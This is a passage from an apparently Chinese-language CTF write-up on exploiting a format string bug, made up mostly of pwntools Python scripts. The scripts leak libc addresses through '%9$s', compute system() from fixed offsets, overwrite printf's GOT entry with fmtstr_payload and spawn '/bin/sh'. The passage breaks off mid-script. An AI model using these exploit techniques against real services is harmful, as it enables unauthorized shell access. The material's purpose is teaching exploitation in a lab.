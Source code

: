 ```python
# print('*'*100)
# print(payload)

# 发送payload
p.sendline(payload)
p.sendline('/bin/shx00')
p.interactive()

```

![3](https://moxiaoxi.info/img/post/Fmtstr/3.png)

#### 远程EXP：

在远程EXP过程中，还需要leak libc函数地址。

主要方式有两种：

1. 利用DynELF暴力搜索
2. 利用libcdatabase或libdb查询

具体过程如下：

![getlibc](https://moxiaoxi.info/img/post/Fmtstr/getlibc.png)

这样我们就获取到了对应的偏移地址，就可以撰写最终的EXP了：
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import binascii
# context.log_level = 'debug'

r = remote('127.0.0.1',9999)
r.recv()
r.sendline('moxiaoxi')
r.recv()

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    resp = r.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret


printf_plt_addr = 0x8048490
printf_plt_code = leak(printf_plt_addr)
printf_got_plt_addr = u32(printf_plt_code[2:6])


printf_addr = u32(leak(printf_got_plt_addr)[:4])

print('[+]:printf_addr',hex(printf_addr))

libc_addr = printf_addr - 0x00049670
system_addr = libc_addr + 0x0003ada0

payload = fmtstr_payload(7, {printf_got_plt_addr: system_addr})

# 发送payload
```
